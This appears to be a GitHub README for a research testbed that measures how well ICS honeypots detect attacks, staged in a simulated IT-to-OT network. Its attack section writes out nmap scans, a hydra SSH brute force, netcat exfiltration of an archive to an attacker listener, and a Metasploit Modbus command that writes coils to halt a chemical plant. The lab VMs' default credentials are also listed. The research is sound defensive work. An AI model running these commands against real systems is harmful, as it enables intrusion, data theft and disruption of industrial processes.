


# UOA ICS Honeypot Evaluation

A research framework for evaluating the detection and deception capabilities of Industrial Control System (ICS) honeypots in the GRFICSv2 environment. This project simulates IT-to-OT attack paths (e.g., T0855 Unauthorized Command Message) and measures honeypot performance using metrics in terms of deception and detection, inspired by the Colonial Pipeline attack.

##  Overview

This repository implements a testbed for assessing ICS honeypots in the GRFICSv2 simulation framework [1]. It includes scripts for attack simulations (e.g., ping sweeps, Modbus attacks, JSP exploits) and evaluating detection (logging, alerting) and deception. The project targets researchers, ICS security professionals, and educators exploring OT cybersecurity.

### Key Features
- **Attack Simulations**: Implements MITRE ATT&CK techniques (e.g., T0855, T1190, T1021) including ping sweeps, SYN scans, vulnerability scans, RDP/SSH access, JSP exploits, and Modbus command attacks.
- **Honeypot Evaluation**: Assesses detection (log analysis) and deception (realism, **Target Prominence**) for Conpot [3], and GasPot [4], and HoneyPLC [5].
- **GRFICSv2 Integration**: Leverages a three-subnet ICS simulation (IT: 192.168.189.0/24, DMZ: 192.168.90.0/24, OT: 192.168.95.0/24) with pfSense rules.
- **Colonial Pipeline Context**: Simulates IT-to-OT attacks inspired by real-world ICS incidents.

## Setup

In this project, we will be using Virtual Box to simulate all related system.

### Virtual Box Setup

Create Host-Only Adapters:

1. Open VirtualBox → File → Host Network Manager.

2. Create three adapters:
	- Adapter 1: IP: 192.168.189.1, Netmask: 255.255.255.0 (IT)
	- Adapter 2: IP: 192.168.90.1, Netmask: 255.255.255.0 (DMZ)
	- Adapter 3: IP: 192.168.95.1, Netmask: 255.255.255.0 (OT)

3. Enable DHCP on each adapter.

### GRFICSv2 Setup


1. Download VMs (Provided by [GRFICSv2](https://github.com/Fortiphyd/GRFICSv2)):

   - [Simulation VM](https://netorgft4230013-my.sharepoint.com/:u:/g/personal/dformby_fortiphyd_com/EaBeAxbF6xtEumdsJ7npVz0BeECJnseAMsfAbaLwV3sKOg?e=JRvkcS)
   - [HMI VM](https://netorgft4230013-my.sharepoint.com/:u:/g/personal/dformby_fortiphyd_com/Eacy2_AyKsNHsebSady0fGMB95li29AVnQxjHiu89XXpEQ?e=WZxsx0)
   - [pfsense VM](https://netorgft4230013-my.sharepoint.com/:u:/g/personal/dformby_fortiphyd_com/ETe9GfHNkOZKh2YuL7oMd1UBs8zhnqmGnqoODuTy2q8alg?e=GqTHB6)
   - [PLC VM](https://netorgft4230013-my.sharepoint.com/:u:/g/personal/dformby_fortiphyd_com/ER0pG_X5IRNCg477jf2ppo8BdN0t13t9vrNBH92_oOWOHA?e=hNeJ88)
   - [Workstation](https://netorgft4230013-my.sharepoint.com/:u:/g/personal/dformby_fortiphyd_com/EcZuc0Xu7WRBjhIhwWH2MjkBeZ4W1S-k6m4m7Nuk_RHpdQ?e=kHhX7y)

2. Assign Network Adapters:
	- pfSense VM: Host-Only Adapter: Adapter 1,2,3
	- Workstation VM: Host-Only Adapter: Adapter 1
	- HMI VM (ScadaBR): Host-Only Adapter: Adapter 2
	- PLC VM (plc_2): Host-Only Adapter: Adapter 3
	- Simulation VM (ChemicalPlant): Host-Only Adapter: Adapter 3

3. VM Credential:

	|VM | username | password|
	|---|---|---|
	|pfSense|admin|pfsense|
	|Workstation|workstation|password|
	|HMI|scadabr|scadabr|
	|PLC|user|password|
	|Simulation|simulation|Fortiphyd|

4. Confirm address

	Run the following to verify the correct IP for each VM

	```bash
	ip a
	```

	We will be using the following IP for each VM:
	|VM | IP |
	|---|---|
	|pfSense|192.168.90.100|
	|Workstation|192.168.189.7|
	|HMI|192.168.90.5|
	|PLC|192.168.95.2|
	|Simulation|192.168.95.10|

5. Confirm Web Services
	
	Verify the following web service with credentials

	|VM | address | username | password|
	|---|---|---|---|
	|pfSense|https://192.168.90.100|admin|pfsense|
	|HMI|http://192.168.90.5:8080/ScadaBR|admin|admin|
	|Simulation|https://192.168.95.10|N/A|N/A|

	HMI webconsole screenshot
	

	chemplant screenshot
	


6. PfSense configuration

	Since now the system is customized to have 3 subnet, PfSense configuration need to be adjusted accordingly

	Step 1: Allow IT to DMZ Traffic

	- Login to PfSense Web portal
	- Navigate to Firewall > Rules and select the IT interface tab.

	- Click Add to create a new rule.

		Configure the rule as follows:

			Action: Pass

			Interface: IT

			Address Family: IPv4

			Protocol: (Choose the specific protocol, e.g., TCP, UDP, or Any if all protocols are allowed)

			Source: 
			Select "IT subnet" or manually enter 192.168.189.0/24

			Destination: 
			Select "DMZ subnet" or manually enter 192.168.90.0/24

			Destination Port Range: Specify ports (e.g., HTTP: 80, HTTPS: 443) or "Any" if all ports are allowed.

			Description: "Allow IT to DMZ"

	- Save and apply the changes.


### Attacker (Kali) Setup

1. Download Kali Linux (Provided by [Kali Linux](https://www.kali.org/))

2. Assign Network Adapters: Adapter 1


### Honeypot Setup

We will be using docker to setup the honeypot, and will be using Ubuntu VM as the base OS.

1. Download Ubuntu VM (Provided by [Ubuntu](https://www.ubuntu.com/))

2. Setup docker instance

	```bash
	sudo apt install docker docker-compose
	```

3. Make sure only one honeypot is running at a time when evaluating

4. To check logs of the running container
	```bash
	docker logs <container_id>
	```

#### Conpot Setup

```bash
docker run --user=conpot --env=PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin --env=USER=conpot --network=host --workdir=/home/conpot --network=host -p 102:10201 -p 161:161/udp -p 502:5020 -p 80:80 --restart=no --runtime=runc --name=conpot -t -d honeypot/conpot:latest
```

#### Gaspot Setup
```bash
docker run --env=PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin --network=host -p 10001:10001 --restart=no --runtime=runc --name=conpot -t -d honeypot/conpot:latest
```

#### HoneyPLC Setup

1. HoneyPLC doesn't provide a docker image, so we need to build it from the source code


2. Create Dockerfile, can also be found under ```./honeyplc_setup/Dockerfile```

	```dockerfile
	# Use Ubuntu 22.04 as the base image
	FROM ubuntu:22.04

	# Set working directory
	WORKDIR /honeyplc

	# Install dependencies
	RUN apt-get update && apt-get install -y \
		python3 \
		python3-pip \
		git \
		build-essential \
		libpcap-dev \
		nmap \
		snmp \
		wget \
		&& rm -rf /var/lib/apt/lists/*

	# Install Snap7
	RUN git clone https://github.com/scada-tools/snap7.git /tmp/snap7 \
		&& cd /tmp/snap7/build/unix \
		&& make -f unix_Makefile.mk all \
		&& cp /tmp/snap7/build/bin/x86_64-linux/libsnap7.so /usr/lib/ \
		&& ldconfig \
		&& rm -rf /tmp/snap7

	# Install Honeyd
	RUN git clone https://github.com/provos/honeyd.git /tmp/honeyd \
		&& cd /tmp/honeyd \
		&& ./configure \
		&& make \
		&& make install \
		&& rm -rf /tmp/honeyd

	# Copy HoneyPLC source code
	COPY . /honeyplc

	# Install Python dependencies (if any)
	RUN pip3 install python-nmap

	# Expose common PLC ports (e.g., S7comm, HTTP, SNMP)
	EXPOSE 102 80 161/udp

	CMD ["/bin/bash"]
	```

3. Build the docker image
	```bash
	docker build -t honeyplc:latest .
	```

4. Run the docker image

	```bash
	docker run --network=host -p 102:10201 -p 161:161/udp -p 80:8080 --restart=no --runtime=runc --name=honeyplc -t -d honeyplc:latest
	```

## Attack Scripts

### Reconnaissance
We will run various scan using ```nmap``` to detect available services on the network. This attack can happen in any subnet from IT, DMZ, and OT along the attack path.

ping sweep
```bash
# Scan the full IT subnet
nmap -sn 192.168.189.0/24
```

SYN scan (stealthy scan)
```bash
nmap -sS -p- 192.168.189.6
```

OS fingerprint scan
```bash
# target IP was obtained 
# from ping sweep
nmap -O 192.168.189.6
```

Vulnerability scan
```bash
# script is built-in from Kali
nmap -sV --script vuln 192.168.189.6
```

A collection of reconnaissance script can be found in the ```./scripts/nmap_scan.sh```

### Initial Access

Access with valid account to mimic a VPN bleach scenario

RDP (Valid Account)
```bash
# credentials are known
rdesktop -u workstation -p password 192.168.189.6
```

SSH (Valid Account)
```bash
# input known password
ssh -l workstation 192.168.189.6
```

### Credential Access

We will also try to access SSH with brutal force using ```hydra```, a fast network logon cracker that supports many different service. However since RDP used in the workstation is xRDP, which has different response than traditional Microsoft RDP, we will only focus on SSH here.

SSH (brutal force)
```bash
hydra -l workstation -P password.txt -t 4 -f -o hydra_ssh.log ssh://192.168.90.102
```

### Collection

By running this on the target server, We will collect the important data from the target server by compressing into a tar.gz file.

Compress data
```bash
# compress ~/Documents as an example
tar -czf design_doc.tar.gz ~/Documents
```

### Data Exfiltration

Attacker can exfiltrate the data by listening on port 4444 and send data back from the target server.

Attacker (Kali) script
```bash
# Listens on port 4444 with netcat
nc -l -p 4444 > exfil_data
```

Target (Workstation) script
```bash
# Send data (important.tar.gz) back
nc 192.168.189.7 4444 < important.tar.gz
```

### Impair Process Control
We will run unauthorized command on PLC VM (Assuming we have accessed to OT already) using \verb|msfconsole| with modbus model to try to interupt the Chemical Plant operation as a demostration of what could happen if attacker exploit to the OT layer.
	
Unauthorized Command Message (Modbus)
```bash
msfconsole

## then run these for prompt
# load modbus client
use auxiliary/scanner/scada/\
modbusclient

# set target host
set rhost 192.168.95.2

# set the address to interact
set data_address 40

# set action to read coils value
set action READ_COILS

# run the action
run

# set action to write coils value
set action WRITE_COILS

# overwrite the coils value 
# 1 to stop the operation
# 0 to start the operation
set data_coils 1

# run the action
run
\end{minted}
```

## Result

### Metrics

1. Conpot

	|Attack activities|Detection|Desired Outcome|
	|---|---|---|
	|Ping sweep|Yes|Yes|
	|SYN scan all port (stealthy scan)|No|Yes|
	|OS fingerprint scan|Yes|Yes|
	|Vulnerability scan|Yes|Yes|
	|RDP (Valid Account)|N/A|N/A|
	|SSH (Valid Account)|Yes|Yes|
	|SSH (brutal force)|Yes|Yes|
	|Collection|No|Yes|
	|Exfiltration|No|Yes|
	|Unauthorized Command Message (Modbus)|No|No|

2. Gaspot

	|Attack activities|Detection|Desired Outcome|
	|---|---|---|
	|Ping sweep|No|Yes|
	|SYN scan all port (stealthy scan)|No|Yes|
	|OS fingerprint scan|No|No|
	|Vulnerability scan|No|No|
	|RDP (Valid Account)|N/A|N/A|
	|SSH (Valid Account)|N/A|N/A|
	|SSH (brutal force)|N/A|N/A|
	|Collection|No|Yes|
	|Exfiltration|No|Yes|
	|Unauthorized Command Message (Modbus)|N/A|N/A|

3. HoneyPLC

	|Attack activities|Detection|Desired Outcome|
	|---|---|---|
	|Ping sweep|Yes|Yes|
	|SYN scan all port (stealthy scan)|No|Yes|
	|OS fingerprint scan|Yes|Yes|
	|Vulnerability scan|Yes|Yes|
	|RDP (Valid Account)|N/A|N/A|
	|SSH (Valid Account)|N/A|N/A|
	|SSH (brutal force)|N/A|N/A|
	|Collection|No|Yes|
	|Exfiltration|No|Yes|
	|Unauthorized Command Message (Modbus)|N/A|N/A|

Overall Metrics

|Honeypot| Detection Rate (%) | Deception Rate (%)|
|---|---|---|
|Conpot|50|80|
|Gaspot|0|40|
|HoneyPLC|50|60|

### Screenshot of attack on testbed and honeypot
Kali ping sweep result


Conpot detect scanning


Kali SYN scan


Kali OS scan


Kali Vulnerability scan


Kali RDP access


Kali ssh access


Kali brutal force ssh


Workstation collect documents


Exfiltration


Metaspoilt read coils


Metaspoilt write coils


Conpot fails to allow read coils


## Citation
[1] ARDSSL, “GRFICSv2: Graphical Realism Framework for Industrial Control Simulations,” GitHub, [Online]. Available: https://github.com/ardssl/grficsv2. [Accessed: Apr. 22, 2025].

[2] D. Formby, M. Rad, and R. Beyah, “Lowering the Barriers to Industrial Control System Security with GRFICS,” in 2018 USENIX Workshop Adv. Secur. Educ. (ASE 18), 2018. [Online]. Available: https://www.usenix.org/conference/ase18/presentation/formby.

[3] Mushorg, “Conpot: ICS/SCADA Honeypot,” GitHub, [Online]. Available: https://github.com/mushorg/conpot. [Accessed: Apr. 22, 2025].

[4] S. Hilt, “Gaspot: Veeder root guardian ast honeypot,” GitHub, [Online].

Available: https://github.com/sjhilt/GasPot, [Accessed: Apr. 2, 2025].

[5] S. Lab, “Honeyplc: An industrial control system honeypot,” GitHub,
[Online]. Available: https://github.com/sepcs/honeyplc, [Accessed: Apr.
2, 2025].


